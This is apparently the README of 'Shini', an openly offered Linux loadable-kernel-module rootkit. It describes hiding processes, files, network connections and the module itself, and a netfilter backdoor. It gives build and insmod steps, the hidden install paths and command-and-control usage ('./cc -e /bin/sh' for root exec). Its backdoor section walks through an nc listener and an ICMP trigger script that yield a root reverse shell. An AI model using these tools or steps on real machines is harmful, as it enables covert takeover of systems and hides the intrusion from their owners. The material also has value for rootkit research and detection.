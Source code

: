 # Intro

Shini is a modular lkm based rootkit(ring 0) for linux. Its purpose is to be simple, modular, 
generic (without relying on an architecture) and to segment its logical behavior from its hook methods.

# Features
  - exec any program with root privileges.
  - hide module (only itself).
  - hide files.
  - hide procresses.
  - hide tcp/udp (4 or 6, source or destination) connections.
  - netfilter backdoor.
 
# Dependencies
- gcc
- make
- linux headers
- insmod

# Tools

- shini/misc/cb, connect back. (the backdoor)
- shini/misc/cc, command and control (the client that will communicate with the rootkit).
- shini/scripts/bdt, backdoor trigger (a python script that will send icmp magic packets to the target).

# Build/Install

First you need to compile and load the lkm.

```console
# git clone https://github.com/Jin-Roh/shini
# cd shini/build
# make
# insmod shini.ko
```

Build and install the tools listed above.

```console
# cd shini/misc/
# ./install.sh
```

This shell script will be responsible for compiling, creating a folder in /etc/opt/ with a predetermined prefix, 
modifying the name of the programs and placing them in the folder created previously.

# Uninstall

```Just remove the module, if module_hide() are not commented in the main.c,``` 
```this will not work, it's necessary to reboot your vm.```

```console
# rmmod shini
```

# Standard Configuration

- prefix : .\_shini\_
- path   : /etc/opt/.\_shini\_/
- helper : /etc/opt/.\_shini\_/._shini_helper
- cb     : /etc/opt/.\_shini\_/._shini_cb
- cc     : /etc/opt/.\_shini\_/._shini_cc

Read shini/misc/install.sh and shini/src/include/config.h files for more details.

# Usage
## Command and Control
```console
$ cd /shini/misc/cc/build
$ make
$ ./cc
```
or after run the install script.

```console
cd /etc/opt/._shini_/
./._shini_cc
```

The way to use it with examples will appear on the console.

```console
usage: 

./cc -e <exec>
./cc -h <value> -l <list>
./cc -s <value> -l <list>

<list>: 
	proc , hidden proc list
	file , hidden file list
	t4_s , hidden tcp4 source port list
	t4_d , hidden tcp4 dest port list
	t6_s , hidden tcp6 source port list
	t6_d , hidden tcp6 dest port list
	u4_s , ..
	u4_d , ..
	u6_s , ..
	u6_d , ..

example:

./cc -e /bin/sh        	 - exec /bin/sh as root
./cc -h 1878  -l proc  	 - hide pid 1878
./cc -s 1878  -l proc  	 - show pid 1878
./cc -h 14000 -l file  	 - hide ino 14000
./cc -h 22    -l t4_s  	 - hide tcp4 src  port 22
./cc -h 1337  -l u6_d  	 - hide udp6 dest port 1337

```

## Backdoor

On your machine, first listen to the connection on a port using nc, e.g.:
```console
$ nc -vvlp 4430
```

Still on your machine, run the ```bdt.py```(needs root) script with the correct parameters, e.g.: 

```console
# cd shini/scripts/bdt
# python2.7 bdt.py -t <target> -h <host> -p <port>
# python2.7 bdt.py -t 192.168.1.103 -h 192.168.1.100 -p 4430
[+] Data : backdoor!_192.168.1.100_4430_
[+] Packet sent!
```

- target, where the rootkit is installed.
- host, machine that receives the reverse connection.
- port, the port.
 
If all goes well, you will get a root shell on nc.

```console
$ nc -vvlp 4430
listening on [any] 4430 ...
192.168.1.103: inverse host lookup failed: 
connect to [192.168.1.100] from (UNKNOWN) [192.168.1.103] 49548
id
uid=0(root) gid=0(root) groups=0(root)
```

# Debug Messages

If syslog are installed:

```console
# tail -f /var/log/messages
```

Or:

```console
# dmesg | grep shini
```

# Tested on
 
- Linux 3.16.0-4-686-pae #1 SMP Debian 3.16.43-2+deb8u5 (2017-09-19) i686 GNU/Linux
- Linux 4.17.12-arch1-1-ARCH #1 SMP PREEMPT Fri Aug 3 07:16:41 UTC 2018 x86_64 GNU/Linux

# TODO
 
- persistence related to reboots (maybe the module infection technique, see references[4][7]).
- code documentation.
- better installation script.
- more tests, (mips, arm, powerpc, etc...).
- more tests, (kernel linux sources).

# References

1. https://elixir.bootlin.com/linux/v4.17.13/source
2. https://github.com/mncoppola/suterusu
3. http://phrack.org/issues/68/6.html#article  : Android platform based linux kernel rootkit, by dong-hoon you
4. http://phrack.org/issues/68/11.html#article : Infecting loadable kernel modules, by styx^
5. http://www.ouah.org/LKM_HACKING.html
6. http://phrack.org/issues/50/5.html#article  : Abuse of the Linux Kernel for Fun and Profit, by halflife
7. http://phrack.org/issues/61/13.html#article : Hacking the Linux Kernel Network Stack, by bioforge 
8. http://phrack.org/issues/61/10.html#article : Infecting loadable kernel modules, by truff

License
----
MIT
